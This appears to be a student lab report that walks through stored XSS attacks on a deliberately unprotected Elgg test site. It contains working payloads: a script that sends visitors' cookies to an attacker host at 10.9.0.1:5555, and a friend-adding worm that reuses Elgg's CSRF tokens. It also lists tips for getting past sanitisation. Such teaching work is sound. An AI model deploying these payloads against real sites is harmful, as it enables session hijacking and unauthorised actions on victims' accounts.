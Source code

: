 # Cross-Site Scripting Attack Lab (Elgg)

# Introduction

This report explores the exploitation of Cross-Site Scripting (XSS) vulnerabilities through a simulated attack on a modified Elgg social networking application. Elgg, a widely-used open-source platform, has been intentionally configured without XSS countermeasures for the purposes of this lab, making it vulnerable to JavaScript injection. By injecting malicious code, attackers can perform actions on behalf of other users, such as stealing session cookies or altering site content—highlighting the risks posed by XSS vulnerabilities.

## Question 1

### Task 1

In this tak we are want to embe JavaScript directly within the Elgg profile fields to trigger an alert window, demonstrating a basic XSS vulnerability. 

For this tasked we logged in the user Alice.

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_1.png">
        <figcaption style="font-size: smaller">Figure 1: Alice's profile</figcaption>
    </figure>
</div>

We edited the user profile and added out JavaScript code to the profile to start the atack.

```js
<script>alert('XSS');</script>
```

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_2.png">
        <figcaption style="font-size: smaller">Figure 2: Adding the JavaScript code to Alice's profile</figcaption>
    </figure>
</div>

Now when another user opens Alice's profile an alert window with the "XSS" message will apear.

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_3.png">
        <figcaption style="font-size: smaller">Figure 3: Alert window with the "XSS" message</figcaption>
    </figure>
</div>

This attack verifies that Elgg’s input fields are vulnerable to script injection.

### Task 2

The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the user’s cookies will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task:

In this task we want to be able to display the user's cookies in the alert window. To do that we changed the JavaScript code no Alice's profile.

```js
<script>alert(document.cookie);</script>
```

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_4.png">
        <figcaption style="font-size: smaller">Figure 4: Adding another line of JavaScript code to Alice's profile</figcaption>
    </figure>
</div>

And now when another user enters Alice's profile the alert message will show with that user's cookies displayed.

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_5.png">
        <figcaption style="font-size: smaller">Figure 5: Alert window with the user's cookies displayed</figcaption>
    </figure>
</div>

In this task only the user can see its own cookies, not the attacker.

### Task 3 

Now we want, as the attacker, to be able to see the user (that entered Alice's profile) cookies. So we need to find a way to send the cookies of the user to the attacker.
To do this we will again change our JavaScript code to send the cookies to the attacker.

This code creates an 'img' tag with the src attribute set to a URL that includes the cookies (document.cookie) as a parameter. The browser will attempt to load this img from the attacker’s machine (10.9.0.1), and in doing so, it will send the cookies in an HTTP GET request to http://10.9.0.1:5555.

```js
<script> 
    document.write('<img src="http://10.9.0.1:5555?c=' + escape(document.cookie) + '">');
</script>
```

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_6.png">
        <figcaption style="font-size: smaller">Figure 6: Changed JavaScript code in Alice's profile</figcaption>
    </figure>
</div>

Now when another user enters Alice's profile, instead of receiving a message with their own cookie, they will not be notified, but their cookie will be send to the attacker.

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_7.png">
        <figcaption style="font-size: smaller">Figure 7: Attackers view of the the user's cookie</figcaption>
    </figure>
</div>

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_8.png">
        <figcaption style="font-size: smaller">Figure 8: User's cookies</figcaption>
    </figure>
</div>

### Task 4 

In this task we want to make something more simmilar to the attack that Samy did to MySpace in 2005.
We will write an XSS worm that adds Samy as a friend to any other user that visits Samy's profile, but this worm does not self-propagate.

To start, we used another account and with the help of "HTTP Header Live" Tool we want to find more informations on the request to add a friend. 

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_9.png">
        <figcaption style="font-size: smaller">Figure 9: "HTTP Header Live" tool showing the request to add a friend</figcaption>
    </figure>
</div>

This is the full first line:
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1731600303&__elgg_token=eFNYGSxhJNN5Bit9ga_7_w&__elgg_ts=1731600303&__elgg_token=eFNYGSxhJNN5Bit9ga_7_w


In the first line, anong other things, its writen "friend=59", so now we know that Samy's ID is 59.
Another thing we had to do was use the first line that we had obtain in the "HTTP Header Live" Tool to undestand the order of elements int the UML and then form the acctual UML.

```js
<script type="text/javascript">
  window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts; // 1
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token; //2

    // Construct the HTTP request to add Samy as a friend.
    var friendID = "59"; // Samy's ID
    var sendurl = "http://www.seed-server.com/action/friends/add?friend=" + friendID + ts + token;

    // Create and send an AJAX request to add the friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
  }
</script>
```
After adding this JavaScript code to Samy's profile, now we tested by opening Alice's profile and, without adding manually Samy as friend, we opened Samy's profile and then went to Alice's friends and we could then check that Samy was added to Alice's friend list without Alice doing anything.

<div align="center">
    <figure>
        <img src="images/logbook7/logbook7_10.png">
        <figcaption style="font-size: smaller">Figure 10: Alice's friends</figcaption>
    </figure>
</div>

#### Task4: Question1

Explain the purpose of Lines 1 and 2,why are they needed?

```js
var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts; // Line 1
var token = "&__elgg_token=" + elgg.security.token.__elgg_token; // Line 2
```
Line 1 creates a string that adds a timestamp (__elgg_ts) to the URL. This timestamp is generated by the Elgg system to ensure that the request is coming from a valid user session. It prevents attackers from using the request without having an authenticated session or mimicking valid requests from other users.

Line 2 appends the security token (__elgg_token) to the URL. The token is another security feature used by Elgg to ensure that the request is legitimate. It prevents an attacker from sending arbitrary requests to perform actions like adding a friend, since the attacker would not have access to this token unless they were authenticated. 

These two lines are essential for ensuring that the HTTP request is legitimate and comes from an authenticated user. Without these, the request could be considered invalid by the server, preventing the attack from succeeding. Therefore, they are needed to bypass Elgg's CSRF protection mechanisms.

#### Task4: Question2: 

If the Elgg application only provided the Editor mode for the "About Me" field (i.e., you cannot switch to Text mode), can you still launch a successful attack?

Even with only "Editor mode" enabled for the "About Me" field, an XSS attack can still be successful, although with some limitations. While the Editor mode may implement sanitization to block certain JavaScript or HTML tags, like script, attackers can still bypass these protections. For instance, JavaScript can be injected using event-based attributes (like `onload` or `onclick`) within tags like `img` or `a`. Additionally, encoding characters as HTML entities or using non-standard JavaScript functions (e.g., `document.write()`) can sometimes bypass sanitization. Therefore, while Text mode makes injection easier, an attack is still possible in Editor mode if the sanitization is insufficient.

## Question 2

There are several types of XSS attacks (Reflected, Stored, or DOM). Which type(s) does this attack fall under and why?

The attack performed in this lab  is best classified as a Stored XSS attack. In this scenario, the malicious JavaScript is injected and stored in the "About Me" field of Samy's profile. Every time another user, like Bob, visits Samy's, the malicious code is executed  from the  making it a classic example of XSS. The injected script is persistently stored in the Elgg database, and it runs automatically when the page is loaded, which is characteristic of Stored XSS. 

Unlike Reflected XSS, which involves the malicious code being reflected off the server in response to a user request , this attack does not rely on tricking the victim into clicking a malicious link. 
Additionally, this attack is not an example of DOM-based XSS, as it does not depend on client-side manipulation of the page but rather on server-side storage. 
 
